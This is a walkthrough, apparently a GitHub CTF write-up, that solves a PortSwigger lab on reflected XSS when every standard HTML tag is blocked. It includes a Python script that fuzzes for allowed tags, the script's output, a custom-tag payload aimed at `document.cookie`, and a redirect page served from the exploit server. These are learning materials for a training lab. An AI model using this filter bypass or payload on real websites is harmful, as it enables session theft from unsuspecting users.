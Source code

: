 # Reflected XSS into HTML context with all tags blocked except custom ones

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked), you'll learn: Reflected XSS into HTML context with all tags blocked except custom ones! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231072352.png)

In here, we can see there is a search box.

Let's try to inject a JavaScript code:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231072439.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231072446.png)

However, the application blocks us from injecting XSS payloads.

**Let's try to fuzz which tag(s) is allowed via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(tag):
    payload = f'<{tag}>'
    url = f'https://0ae200dc03aace24c3c41b0600d800c3.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url + tag)

    if 'Tag is not allowed' not in requestResult.text:
        print(f'[+] Found valid tag: {payload}')

def main():
    # From PortSwigger Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listTags = ['a', 'a2', 'abbr', 'acronym', 'address', 'animate', 'animatemotion', 'animatetransform', 'applet', 'area', 'article', 'aside', 'audio', 'audio2', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'command', 'content', 'custom tags', 'data', 'datalist', 'dd', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'embed', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'frame', 'frameset', 'h1', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'iframe', 'iframe2', 'image', 'image2', 'image3', 'img', 'img2', 'input', 'input2', 'input3', 'input4', 'ins', 'kbd', 'keygen', 'label', 'legend', 'li', 'link', 'listing', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meta', 'meter', 'multicol', 'nav', 'nextid', 'nobr', 'noembed', 'noframes', 'noscript', 'object', 'ol', 'optgroup', 'option', 'output', 'p', 'param', 'picture', 'plaintext', 'pre', 'progress', 'q', 'rb', 'rp', 'rt', 'rtc', 'ruby', 's', 'samp', 'script', 'section', 'select', 'set', 'shadow', 'slot', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'svg', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'title', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'video2', 'wbr', 'xmp']

    for tag in listTags:
        thread = Thread(target=sendRequest, args=(tag,))
        thread.start()
        sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 tag_fuzzing.py 
[+] Found valid tag: <a2>
[+] Found valid tag: <animatemotion>
[+] Found valid tag: <animatetransform>
[+] Found valid tag: <animate>
[+] Found valid tag: <audio2>
[+] Found valid tag: <custom tags>
[+] Found valid tag: <iframe2>
[+] Found valid tag: <image3>
[+] Found valid tag: <image2>
[+] Found valid tag: <img2>
[+] Found valid tag: <input2>
[+] Found valid tag: <input3>
[+] Found valid tag: <input4>
[+] Found valid tag: <set>
[+] Found valid tag: <video2>
```

Then, go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to see which tags can perform XSS:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231073034.png)

After some searching, I found that only custom tag works.

**Let's pick one payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231073312.png)

This payload looks ok.

However, we want the XSS payload don't require user interaction.

**To fix that, we can add an anchor (`#x`) at the end of the URL:**
```html
?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)></xss>#x
```

Let's try that:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231075214.png)

It worked!

**Now, we need to go to the exploit server, host the HTML payload file, and deliver it to victim.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231073535.png)

**Final payload:**
```html
<html>
    <head>
        <title>XSS-18</title>
    </head>
    <body>
        <script>
            window.location.replace("https://0ae200dc03aace24c3c41b0600d800c3.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)></xss>#x"); 
        </script>
    </body>
</html>
```

When the victim visit our web page, he/she will be redirected to the XSS payload.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231075458.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231075511.png)

Nice!

# What we've learned:

1. Reflected XSS into HTML context with all tags blocked except custom ones